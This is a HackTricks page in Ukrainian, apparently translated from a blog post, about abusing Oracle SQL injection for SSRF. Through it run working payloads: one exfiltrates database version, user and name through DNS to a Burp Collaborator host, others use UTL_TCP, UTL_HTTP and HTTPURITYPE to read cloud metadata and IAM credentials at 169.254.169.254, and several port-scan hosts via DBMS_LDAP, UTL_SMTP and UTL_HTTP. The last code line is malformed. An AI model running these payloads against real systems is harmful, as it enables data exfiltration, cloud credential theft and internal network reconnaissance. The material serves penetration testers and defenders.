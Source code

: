 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Serve this post a wayback machine copy of the deleted post from [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Використання Oracle для виконання Out of Band HTTP та DNS запитів добре задокументовано, але як засіб ексфільтрації SQL даних в ін'єкціях. Ми завжди можемо модифікувати ці техніки/функції для виконання інших SSRF/XSPA.

Встановлення Oracle може бути дійсно болісним, особливо якщо ви хочете швидко налаштувати екземпляр для випробування команд. Мій друг і колега з [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), вказав мені на [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c), що дозволило мені налаштувати екземпляр на t2.large AWS Ubuntu машині та Docker.

Я запустив команду docker з прапором `--network="host"`, щоб змоделювати Oracle як рідну установку з повним доступом до мережі, протягом цього блогу.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle пакети, які підтримують специфікацію URL або Ім'я хоста/Номер порту <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Щоб знайти будь-які пакети та функції, які підтримують специфікацію хоста та порту, я провів пошук у Google на [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html). Конкретно,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Результати пошуку повернули наступні результати (не всі можуть бути використані для виконання вихідної мережі)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Цей грубий пошук, очевидно, пропускає пакети, такі як `DBMS_LDAP` (який дозволяє передавати ім'я хоста та номер порту), оскільки [сторінка документації](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) просто вказує вам на [інше місце](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Отже, можуть бути й інші пакети Oracle, які можна зловживати для виконання вихідних запитів, які я міг пропустити.

У будь-якому випадку, давайте розглянемо деякі з пакетів, які ми виявили та перерахували вище.

**DBMS\_LDAP.INIT**

Пакет `DBMS_LDAP` дозволяє отримувати доступ до даних з LDAP серверів. Функція `init()` ініціалізує сесію з LDAP сервером і приймає ім'я хоста та номер порту як аргумент.

Цю функцію раніше документували, щоб показати ексфільтрацію даних через DNS, як нижче
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Однак, враховуючи, що функція приймає ім'я хоста та номер порту як аргументи, ви можете використовувати це, щоб працювати як сканер портів.

Ось кілька прикладів
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` вказує на те, що порт закритий, тоді як значення сесії вказує на те, що порт відкритий.

**UTL\_SMTP**

Пакет `UTL_SMTP` призначений для надсилання електронних листів через SMTP. Приклад, наведений на [сайті документації Oracle, показує, як ви можете використовувати цей пакет для надсилання електронного листа](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Для нас, однак, цікавою є можливість вказати хост і специфікацію порту.

Нижче наведено грубий приклад з функцією `UTL_SMTP.OPEN_CONNECTION`, з тайм-аутом 2 секунди.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` показує, що порт відкритий, але жодне SMTP з'єднання не було встановлено, тоді як `ORA-29278: SMTP transient error: 421 Service not available` показує, що порт закритий.

**UTL\_TCP**

Пакет `UTL_TCP` та його процедури і функції дозволяють [TCP/IP на основі зв'язку з сервісами](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Якщо він запрограмований для конкретного сервісу, цей пакет може легко стати шляхом у мережу або виконати повні запити на стороні сервера, оскільки всі аспекти TCP/IP з'єднання можуть бути контрольовані.

Приклад [на сайті документації Oracle показує, як ви можете використовувати цей пакет для створення сирого TCP з'єднання для отримання веб-сторінки](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Ми можемо трохи спростити це і використовувати його для виконання запитів до екземпляра метаданих, наприклад, або до довільного TCP/IP сервісу.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Цікаво, що завдяки можливості створювати сирі TCP запити, цей пакет також можна використовувати для запитів до служби метаданих екземпляра всіх постачальників хмарних послуг, оскільки тип методу та додаткові заголовки можуть бути передані в запиті TCP.

**UTL\_HTTP та веб-запити**

Мабуть, найпоширеніша та найдокументованіша техніка в кожному навчальному посібнику з Out of Band Oracle SQL Injection - це [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Цей пакет визначається документацією як - `Пакет UTL_HTTP здійснює виклики протоколу передачі гіпертексту (HTTP) з SQL та PL/SQL. Ви можете використовувати його для доступу до даних в Інтернеті через HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Ви також можете використовувати це для виконання деякого елементарного сканування портів за допомогою запитів, таких як
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` або `TNS:operation timed out` є ознакою того, що TCP порт закритий, тоді як `ORA-29263: HTTP protocol error` або дані є ознакою того, що порт відкритий.

Інший пакет, який я використовував у минулому з різним успіхом, це [`GETCLOB()` метод абстрактного типу `HTTPURITYPE` Oracle](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705), який дозволяє взаємодіяти з URL і надає підтримку для HTTP протоколу. Метод `GETCLOB()` використовується для отримання GET відповіді з URL як [CLOB типу даних.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
